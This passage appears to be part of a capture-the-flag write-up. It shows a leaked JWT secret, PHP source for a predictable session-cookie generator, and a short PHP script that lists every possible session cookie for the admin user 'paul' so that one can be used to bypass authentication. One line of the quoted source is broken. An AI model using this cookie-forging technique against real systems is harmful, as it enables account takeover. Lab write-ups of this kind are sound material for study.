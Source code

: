 We get the JWT secret

```
$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
```

Another interesting thing in the response
```
if(in_array($user, $admins) && $_SESSION['username'] == \"paul\")
```

Seems like we need to login as the user paul


Let's check `Cookie.php`
<img src="cookie.png">

If we clean the response, a quick sed to remove the "\r \n and \"

```
<?php
/** * @param string $username  Username requesting session cookie * 
* @return string $session_cookie Returns the generated cookie *
* @devteam * Please DO NOT use default PHPSESSID; our security team says they are predictable. 
*CHANGE SECOND PART OF MD5 KEY EVERY WEEK **/

  function makesession($username){    
  	$max = ;    
  	$seed = rand(0, $max);    
  	$key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";    
  	$session_cookie = $username.md5($key);    
  	return $session_cookie;}

?>
```

We know that the user is "paul" which is a short username, we can generate all the possible cookies and try them until one works


```
<?php
$user="paul";
for ($seed = 0; $seed <= strlen($user) - 1; $seed++) {
	$key = "s4lTy_stR1nG_".$user[$seed]."(!528./9890";  
	$session_cookie = $user.md5($key);
	echo "[+] Cookie : ".$session_cookie."\n";
  
};
?>
```
